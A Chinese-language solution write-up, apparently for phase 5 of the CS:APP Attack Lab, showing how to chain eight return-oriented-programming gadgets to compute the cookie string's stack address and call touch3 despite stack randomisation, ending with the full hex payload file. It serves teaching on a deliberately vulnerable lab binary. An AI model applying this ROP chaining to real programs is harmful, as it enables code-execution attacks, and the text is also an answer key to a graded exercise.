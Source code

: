 我们需要构造一个输入，使得 `getbuf` 函数返回后，调用 `touch3` 函数。但由于栈随机化，我们需要利用 ROP 技术，通过一系列的 gadgets 来实现对 `touch3` 函数的调用。

首先，需要将 cookie 字符串储存在内存空间中，由于 cookie 信息只能由我们的攻击载荷带入，所以 cookie 只能储存在栈空间中。但是，由于栈随机化保护，我们无法直接 cookie 字符串的确切地址。一个容易想到的方法是采用相对地址，虽然栈地址是随机的，但是 cookie 字符串相对于栈顶的偏移量是固定的，因此，我们可以通过获取当前 %rsp 的值再加上偏移量来获取 cookie 字符串的地址。

有了这个基本思路我们接下来就需要去寻找合适的 gadgets 来实现这个思路，这个过程比较曲折，因为提供的 gadgets 库中有时可能并没有直接对应的指令，我们需要通过组合多个 gadgets 来实现我们想要的功能。

```x86asm
; Gadget 1
401f2f: 48 89 e0 c3     movq %rsp, %rax
                        ret
; Gadget 2
401e90: 48 89 c7 90 c3  movq %rax, %rdi
                        nop
                        ret
; Gadget 3
401ea6: 58 c3           popq %rax
                        ret
; Gadget 4
401f83: 89 c1 38 c9 c3  movl %eax, %ecx
                        cmpb %cl, %cl
                        ret
; Gadget 5
401f8e: 89 ca 90 90 c3  movl %ecx, %edx
                        nop
                        nop
                        ret
; Gadget 6
401ef9: 89 d6 20 db c3  movl %edx, %esi
                        andb %bl, %bl
                        ret
; Gadget 7
401ecf: 48 8d 04 37 c3  lea (%rdi,%rsi,1), %rax
                        ret
; Gadget 8
401e90: 48 89 c7 90 c3  movq %rax, %rdi
                        nop
                        ret
```

结合上述 gadgets，添加 `touch3` 函数地址和 cookie 字符串组成攻击载荷：

```text
/* phase5.txt */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
2f 1f 40 00 00 00 00 00 /* Gadget 1 */
90 1e 40 00 00 00 00 00 /* Gadget 2 */
a6 1e 40 00 00 00 00 00 /* Gadget 3 */
48 00 00 00 00 00 00 00 /* Bias value 72 */
83 1f 40 00 00 00 00 00 /* Gadget 4 */
8e 1f 40 00 00 00 00 00 /* Gadget 5 */
f9 1e 40 00 00 00 00 00 /* Gadget 6 */
cf 1e 40 00 00 00 00 00 /* Gadget 7 */
90 1e 40 00 00 00 00 00 /* Gadget 8 */
1b 1d 40 00 00 00 00 00 /* Address of touch3 function */
32 34 63 38 63 65 36 36 00 /* cookie string "24c8ce66" */
```
